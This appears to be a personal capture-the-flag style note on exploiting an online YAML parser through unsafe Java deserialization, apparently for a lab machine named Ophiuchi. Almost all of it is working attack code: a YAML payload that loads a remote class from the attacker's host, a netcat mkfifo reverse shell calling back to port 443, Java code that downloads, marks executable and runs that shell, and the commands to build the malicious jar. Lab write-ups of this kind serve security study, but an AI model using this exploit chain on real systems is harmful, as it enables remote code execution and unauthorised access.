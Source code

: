 #### Online YAML parser
See [[Ophiuchi.pdf]]
See https://github.com/artsploit/yaml-payload
```bash - kali
git clone https://github.com/artsploit/yaml-payload
```
[[Python#Server]]
```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/"]
  ]]
]
```
Should see a call back in you python server.
shell file:
```bash - kali
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f
```
Modify lines 8 - 17 of `/src/artsploit/AwesomeScriptEngineFactory.java` with the following to upload and execute reverse shell.
```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
    public AwesomeScriptEngineFactory() throws Exception {
        try {
            Process p = Runtime.getRuntime().exec("wget $KALI/shell -O /tmp/shell");
			p.waitFor();
			p = Runtime.getRuntime().exec("chmod +x /tmp/shell");
			p.waitFor();
			p = Runtime.getRuntime().exec("/tmp/shell");
			p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
```bash - kali
javac src/artsploit/AwesomeScriptEngineFactory.java
```
```bash - kali
jar -cvf yaml-payload.jar -C src/ .
```
[[1._rlwrap]]
```bash - kali
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/yaml-payload.jar"]
  ]]
]
```